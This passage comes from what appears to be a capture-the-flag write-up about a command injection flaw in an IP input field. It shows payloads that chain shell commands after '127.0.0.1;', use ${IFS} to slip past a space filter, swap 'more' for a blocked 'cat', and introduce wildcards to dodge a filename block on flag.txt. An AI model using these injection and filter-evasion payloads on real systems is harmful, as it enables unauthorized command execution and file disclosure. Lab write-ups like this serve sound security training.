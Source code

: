 By using the characters ```${IFS}``` we can make space in our request. If you need more informations about what is ```IFS``` you can look at the source bellow.

Source : https://unix.stackexchange.com/questions/26784/understanding-ifs

```
127.0.0.1;whoami;dir${IFS}-a
```

![11-YeahSpace](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/0be270b8-7d7e-404b-90ee-5daf66ab35fa)

Great so now that we enumerate all the files and directory, we doesn't find the flag there, so let's look at the base of the machine.

```
127.0.0.1;whoami;dir${IFS}-a${IFS}/
```

![12-LocateFlag](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/3c37352d-0be5-4de5-81b0-8e970f8e8266)

Great we find the flag! Let's try to read it. But first, we will try to read the ```requirements.txt``` which is at our location, to be sure that it work, because maybe there are additionnal protection on the ```flag.txt``` file.

```
127.0.0.1;whoami;dir${IFS}-a;cat${IFS}requirements.txt
```

![13-NoCat](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/3b444824-8c25-4784-80a1-06def473b820)


Oh no... Apparently we can't use ```cat``` to read files. Let's try with ```more``` as alternative.

```
127.0.0.1;whoami;dir${IFS}-a;more${IFS}requirements.txt
```

![14-MOAARE](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/1ec360f8-e5b7-4b65-a1b1-6572f7e2d429)

Great!

Now let's try to read the flag.

```
127.0.0.1;whoami;dir${IFS}-a$;more${IFS}/flag.txt
```
![15-CantRead](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/058a8b98-2a55-4ab2-a4a7-57aecfbe03ca)


ARGH! Apparently, there is some protection. At this moment we need to think, what kind of protection can be there... First think that i was thinking is, maybe we arent allowed to type "flag.txt". So how can i specify this file without giving the full name?

If you know, you know! And if you didn't, i dont really know which ressource to give. But you need to know that in bash you can specify "?" character to guess some letter if you provide some of them.

Here is an example using "/bin/whoami"

![IMAGE_BONUS](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/11f502a5-27be-4c73-b081-2bccabf78a80)

